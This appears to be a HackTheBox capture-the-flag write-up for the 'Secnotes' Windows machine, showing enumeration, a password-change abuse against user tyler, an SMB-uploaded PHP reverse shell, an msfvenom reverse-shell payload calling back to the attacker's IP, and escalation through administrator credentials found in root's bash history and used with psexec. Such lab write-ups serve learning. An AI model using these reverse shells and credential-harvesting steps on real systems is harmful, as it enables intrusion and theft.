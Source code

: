 ```yaml
---
title: "Secnotes"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Secnotes

![](../assets/Pasted%20image%2020250518205226.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.97
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 20:52 CEST
Nmap scan report for 10.10.10.97
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-05-18T11:53:40-07:00
| smb2-time: 
|   date: 2025-05-18T18:53:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h20m00s, deviation: 4h02m29s, median: 0s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   40.63 ms 10.10.14.1
2   41.14 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.61 seconds
```

`Port` `8808` shows the default `IIS` site and `port` `80` shows a login form.

![](../assets/Pasted%20image%2020250518205616.png)

Create an account and log in.

![](../assets/Pasted%20image%2020250518205947.png)

There is a user named `tyler` that we can contact, and there is no protection against `XSS` when creating a note.

When changing the password, the request is also processed with `GET`, so we could send the request to change the password in the contact text with an `XSS`.

![](../assets/Pasted%20image%2020250518235204.png)

`XSS` is not needed, only send the URL and enter as `tyler` with the new password.

![](../assets/Pasted%20image%2020250518235302.png)

`tyler:92g!mA8BGjOirkL%OG*&`

Checking credentials and shares, we see that the user can write in a share.

![](../assets/Pasted%20image%2020250518235608.png)

## Initial Access

This is the root folder for `IIS`, so we can upload an `aspx`, `asp`, `config`, or `php` reverse shell.

Get a `PHP` rev shell and put it in the folder, start the listener, and browse the page.


```shell
$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //secnotes.htb/new-site
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (70.3 kb/s) (average 70.3 kb/s)
```


```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 49913
SOCKET: Shell has connected! PID: 4448
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
iis apppool\newsite
```

The shell was unstable, so I put a web shell to get an `msfvenom` reverse shell.

![](../assets/Pasted%20image%2020250519002132.png)

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=80 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

smb: \> put reverse.exe
putting file reverse.exe as \reverse.exe (56.0 kb/s) (average 29.5 kb/s)
```


![](../assets/Pasted%20image%2020250519002346.png)

```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 50262
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```

Get the flag:

```shell
C:\Users\tyler\Desktop>type user.txt
type user.txt
3e39543df04f653c45220f80fed60766
```

## Privilege Escalation

Transfer `winPEAS` and find that `WSL` and `Ubuntu` are installed.

![](../assets/Pasted%20image%2020250519005409.png)

Go to the root folder of the distro and search `root`'s history.

```shell
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```

![](../assets/Pasted%20image%2020250519010931.png)

```shell
$ impacket-psexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@secnotes.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on secnotes.htb.....
[*] Found writable share ADMIN$
[*] Uploading file JstWrSBE.exe
[*] Opening SVCManager on secnotes.htb.....
[*] Creating service ldar on secnotes.htb.....
[*] Starting service ldar.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop> type root.txt
13193dc2dd40a8c4f431cb347f764f2c
```
